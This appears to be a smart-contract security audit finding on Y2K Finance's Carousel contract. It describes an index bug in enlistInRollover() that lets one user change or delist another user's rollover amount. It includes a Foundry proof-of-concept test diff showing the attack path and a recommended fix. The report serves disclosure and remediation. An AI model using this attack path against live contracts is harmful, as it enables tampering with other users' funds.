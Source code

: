 Respx

high

# Re-enlisting in a rollover allows modification of other users' rollover amounts/delisting their rollovers

## Summary
If a user enlists a rollover and then, after another user has enlisted, makes multiple calls to `Carousel.enlistInRollover()`, they can change the rollover amount of the last rollover in the queue, even if it belongs to another user.

## Vulnerability Detail
This issue is caused because of a logical error in  `Carousel.enlistInRollover()`.

On [line 253](https://github.com/Y2K-Finance/Earthquake/blob/736b2e1e51bef6daa6a5ecd1decb7d156316d795/src/v2/Carousel/Carousel.sol#L253), the function checks whether the user (`_receiver` in the code) already has an entry in `ownerToRollOverQueueIndex`. If they do, then the values for this entry are updated. Otherwise, a new entry is appended to `rolloverQueue[]`. However, [on line 268](https://github.com/Y2K-Finance/Earthquake/blob/736b2e1e51bef6daa6a5ecd1decb7d156316d795/src/v2/Carousel/Carousel.sol#L268), the value of `ownerToRollOverQueueIndex[_receiver]` is set to point to the last item in `rolloverQueue[]`. This is fine if the user was not already in the queue: their new entry will indeed be at the end. However, if the user already had a queue entry, line 268 will update `ownerToRollOverQueueIndex[_receiver]` to indicate that the updating user has ownership of the last item in the queue, even if this is untrue.

As in the POC test below, a single update of this sort will cause only accounting errors and potential reverts. The check `notRollingOver` [on line 196](https://github.com/Y2K-Finance/Earthquake/blob/736b2e1e51bef6daa6a5ecd1decb7d156316d795/src/v2/Carousel/Carousel.sol#L196) of `safeTransferFrom()` might allow a user to transfer out tokens that are committed to roll over, for example, as it may check the last item in the queue, which could have a lower balance than the funds the transferring user has committed to roll over. This would then cause calls to  `mintRollovers()` to revert, as it would not be possible to burn the required tokens [on line 408](https://github.com/Y2K-Finance/Earthquake/blob/736b2e1e51bef6daa6a5ecd1decb7d156316d795/src/v2/Carousel/Carousel.sol#L408).

The serious threat occurs with a second update, however. If the user calls `Carousel.enlistInRollover()` again, as the function itself calls `getRolloverIndex(_receiver)` [on line 255](https://github.com/Y2K-Finance/Earthquake/blob/736b2e1e51bef6daa6a5ecd1decb7d156316d795/src/v2/Carousel/Carousel.sol#L255) to determine which entry in `rolloverQueue` to update. This function in turn uses the value of `ownerToRollOverQueueIndex[_receiver]` to give the index for that user. At this point, it will receive the index updated to in the previous update, and allow the user to modify its value, notably the number of assets being rolled over. In this way, one user can modify the rollover amount of another.

Similarly, it is also possible to delist the other user's rollover, as `delistInRollover()` also uses `getRolloverIndex()` to determine which item in `rolloverQueue` to delete.

## Impact

Clearly, allowing users to modify the rollover amounts of other users could have significant impact. For example, if the deposit amounts of other users in the premium vault are significantly increased and the deposit amounts of other users in the collateral vault are significantly reduced then, so long as there is no depeg, a user with a large deposit in the collateral vault would stand to be paid an outsized premium that the other users never intended to pay.

## Code Snippet
This is a proof of concept test. Read the comments to follow the attack path through.

```Diff
diff --git a/test/V2/Carousel/CarouselTest.t.sol b/test/V2/Carousel/CarouselTest.t.sol
index 7caa685..4bb529a 100644
--- a/test/V2/Carousel/CarouselTest.t.sol
+++ b/test/V2/Carousel/CarouselTest.t.sol
@@ -139,7 +139,7 @@ contract CarouselTest is Helper {
     }
 
     function testEnListInRollover() public {
-        // create two epochs
+        // create first epoch
         uint40 _epochBegin = uint40(block.timestamp + 1 days);
         uint40 _epochEnd = uint40(block.timestamp + 2 days);
         uint256 _epochId = 2;
@@ -157,12 +157,63 @@ contract CarouselTest is Helper {
         helperDepositInEpochs(_epochId,USER, false);
         helperDepositInEpochs(_epochId,USER2, false);
 
-        // enlist in rollover for next epoch
+        // First user enlists for 8
         vm.startPrank(USER);
-        //_epochId == epoch user is depositing in / amount of shares he wants to rollover
         vault.enlistInRollover(_epochId, 8 ether, USER);
         vm.stopPrank();
 
+        // Confirm the numbers
+        assertEq(vault.getRolloverQueueLenght(), 1);
+        assertEq(vault.getRolloverIndex(USER), 0);
+
+        // Second user enlists with a cautious 1
+        // NOTE this is the only time USER2 enlists in the rollover and it is only for 1 ether.
+        vm.startPrank(USER2);
+        vault.enlistInRollover(_epochId, 1 ether, USER2);
+        vm.stopPrank();
+
+        // This is fine: these numbers are what we expect
+        assertEq(vault.getRolloverQueueLenght(), 2);
+        assertEq(vault.getRolloverIndex(USER2), 1);
+
+        // First user updates amount to 6.
+        vm.startPrank(USER);
+        vault.enlistInRollover(_epochId, 6 ether, USER);
+        vm.stopPrank();
+
+        // Now we get the same rollover index for each user
+        assertEq(vault.getRolloverQueueLenght(), 2);
+        assertEq(vault.getRolloverIndex(USER), 1);
+        assertEq(vault.getRolloverIndex(USER2), 1);
+        assertEq(vault.getRolloverIndex(USER2), vault.getRolloverIndex(USER));
+
+        // USER should have a rollover balance of 6 now...
+        (uint256 balance,) = vault.getRolloverBalance(USER);
+        // but no, instead we are reporting 1 ether!
+        assertEq(balance, 1 ether);
+
+        // The rolloverQueue[] array is as it should be. 
+        // It's `ownerToRollOverQueueIndex` that has the bad data...for now
+        (uint256 assets, address receiver, ) = vault.rolloverQueue(0);
+        assertEq(assets, 6 ether);
+        assertEq(receiver, USER);
+        (assets, receiver, ) = vault.rolloverQueue(1);
+        assertEq(assets, 1 ether);
+        assertEq(receiver, USER2);
+
+        // It's going so well, let's update again
+        vm.startPrank(USER);
+        vault.enlistInRollover(_epochId, 9 ether, USER);
+        vm.stopPrank();
+        (assets,receiver, ) = vault.rolloverQueue(0);
+        assertEq(assets, 6 ether);
+        assertEq(receiver, USER);
+        (assets, receiver, ) = vault.rolloverQueue(1);
+        // NOTE This is the critical line. USER2 only wanted to rollover a cautious 1 ether
+        // but USER has increased their spend to 9!
+        assertEq(assets, 9 ether);
+        assertEq(receiver, USER2);
+
         // resolve first epoch
         vm.warp(_epochEnd + 1 days);
         vm.startPrank(controller);
@@ -179,7 +230,7 @@ contract CarouselTest is Helper {
         vault.setEpoch(_epochBegin, _epochEnd, _epochId);
         vault.setEmissions( _epochId, _emissions);
 
-        // let relayer rollover for user but not mit as prev epoch has not won
+        // let relayer rollover for user but not mint as prev epoch has not won
         vm.startPrank(relayer);
         vault.mintRollovers(_epochId, 1);
         vm.stopPrank();
@@ -196,10 +247,17 @@ contract CarouselTest is Helper {
         // resolve second epoch
         // let relayer rollover for user
         vm.startPrank(relayer);
-        vault.mintRollovers(_epochId, 5000); // can only mint 1 as queue length is 1
+        vault.mintRollovers(_epochId, 5000); // can only mint 2 as queue length is 2
         vm.stopPrank();
 
-        assertEq(vault.rolloverAccounting(_epochId), 1);
+        // We have processed both rollovers
+        assertEq(vault.rolloverAccounting(_epochId), 2);
+
+        // USER has committed 6 ether as per the second enlist call on line 181
+        assertEq(vault.balanceOf(USER, _epochId), 6 ether - relayerFee);
+        // but USER has also increased USER2's enlistment to 9 ether
+        assertEq(vault.balanceOf(USER2, _epochId), 9 ether - relayerFee);
+
     }
 
     function testDepositIntoQueueMultiple() public {
```

## Tool used

Manual Review

## Recommendation

Move the update to `ownerToRollOverQueueIndex[_receiver]` on [line 268](https://github.com/Y2K-Finance/Earthquake/blob/736b2e1e51bef6daa6a5ecd1decb7d156316d795/src/v2/Carousel/Carousel.sol#L268) within the `else` block which begins on line 258 so that it only affects users who are adding their rollover item to the end of `rolloverQueue`.
